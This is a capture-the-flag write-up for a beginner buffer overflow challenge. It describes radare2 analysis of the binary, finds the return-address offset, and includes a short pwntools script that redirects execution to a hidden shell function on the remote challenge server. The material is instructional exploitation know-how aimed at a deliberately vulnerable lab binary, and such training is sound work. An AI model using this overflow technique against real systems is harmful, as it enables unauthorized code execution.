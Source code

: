 ### A buffer overflow challenge with no mitigations and no shell code required

First before disassembling running the program reveals it takes an input and doesn't do much.

![](./screenshots/whatItDo.png)

Opening in radare2 and analyzing the function list shows an interesting function sym.shell_land

![](./screenshots/weirdfunc.png)

Looking at the assembly for the sym.shell_land function reveals it opens a shell. How nice. 
Taking a quick peek into main shows it calls vacation and has a buffer of length 16. The vacation function shows what we saw in the output of the program.

![](./screenshots/sneakyBIt.png)

Lets try and take a vacation to shell_land as it where by overflowing the buffer and rewriting the return address. It important to notice that before the function returns assembly instruction leave is called. Leave causes the rbp to be set to the rsp meaing we will need to write our return address to the top of the rsp not the rbp. Using pwntools cyclic tool and pwndbg we find the offset for the rsp to be 24. We get the address to return too from the function list analysis from before. Running checksec there are no security mechanisms set besides nx so we are good to type up a quick script and get on our flight to shell_land.

```
from pwn import *

context.binary = "./chall"
p = remote('tjc.tf', 31680)
junk = B"A"*24
retn = p64(0x40119b)
garbage = B"A"*8
p.recvline()
p.sendline(junk + retn + garbage)
p.interactive()
```
Running our wonder pwntools script we get a shell and can read the flag.txt file

![](./screenshots/solve.png)

Incase you were totally unfamiliar with the leave instruction or weren't sure why your shell wasn't poping on a machine I added the image below.

![](./screenshots/whatDoesLeaveDo.png)
